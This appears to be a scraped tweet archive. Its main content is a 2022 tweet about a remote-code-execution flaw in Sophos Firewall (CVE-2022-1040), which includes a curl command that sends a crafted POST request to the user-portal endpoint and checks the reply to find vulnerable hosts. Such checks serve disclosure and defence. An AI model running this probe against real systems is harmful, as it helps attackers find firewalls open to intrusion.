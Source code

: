 <td><img src="pictures/aa72fdd5664155ada73fefcbb35d9d8b06a312720f71c7a2eb8b0328dae8f105.jpg" alt="aa72fdd5664155ada73fefcbb35d9d8b06a312720f71c7a2eb8b0328dae8f105.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>33</code></td>
<td>Favorites: <code>58</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1523847057018343424 _at 2022-05-10, 02:07:04_**
<blockquote>
RCE in Sophos Firewall (CVE-2022-1040) 
Cc @Dinosn @ExWareLabs 

curl -sk -H "X-Requested-With: XMLHttpRequest" -X POST 'hxxps://x.x.x.x/userportal/Controller?mode=8700&amp;operation=1&amp;datagrid=179&amp;json=\{"x":"test"\}' | grep -q 'Session Expired'
</blockquote>

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>130</code></td>
<td>Favorites: <code>352</code></td>
</tr></table>

---